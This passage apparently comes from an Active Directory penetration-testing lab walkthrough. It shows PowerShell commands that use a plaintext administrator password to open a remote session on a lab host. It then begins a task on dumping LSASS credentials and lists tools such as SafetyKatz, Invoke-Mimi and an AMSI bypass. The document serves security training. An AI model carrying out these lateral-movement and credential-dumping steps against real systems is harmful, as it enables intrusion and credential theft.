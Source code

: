 We can also use a PSRemoting session.

```
PS C:\AD\Tools> $passwd = ConvertTo-SecureString '9};,)J6p2[67[3' -AsPlainText -Force

PS C:\AD\Tools> $creds = New-Object System.Management.Automation.PSCredential("us-mailmgmt\administrator", $passwd)

UserName                                      Password
--------                                      --------
us-mailmgmt\administrator System.Security.SecureString

PS C:\AD\Tools> $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds

PS C:\AD\Tools> $mailmgmt

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          us-mailmgmt 🖥️  RemoteMachine   Opened 🚀    Microsoft.PowerShell     Available
```

---
---

## LSASS Dump

### Lab: Hands-On #09

#### Tasks

- Extract credentials of interactive logon sessions and service accounts from `us-mailmgmt`

#### Tools

- `net`
- `xcopy` (alternative: `bitsadmin`)
- `winrs` (alternative: `Enter-PSSession`)
- `NetLoader`
- `ArgSplit`
- `SafetyKatz` (alternative: `Invoke-Mimi`)
- `AMSIBypass`

#### Solution

- Extract credentials of interactive logon sessions and service accounts from `us-mailmgmt`

We can use either winrs and open-source binaries or PowerShell Remoting and `Invoke-Mimi.ps1`. Let us try them one by one.

**winrs and open-source binaries**

Use the credentials for administrator from the previous hands-on (#08) to access `us-mailmgmt`.
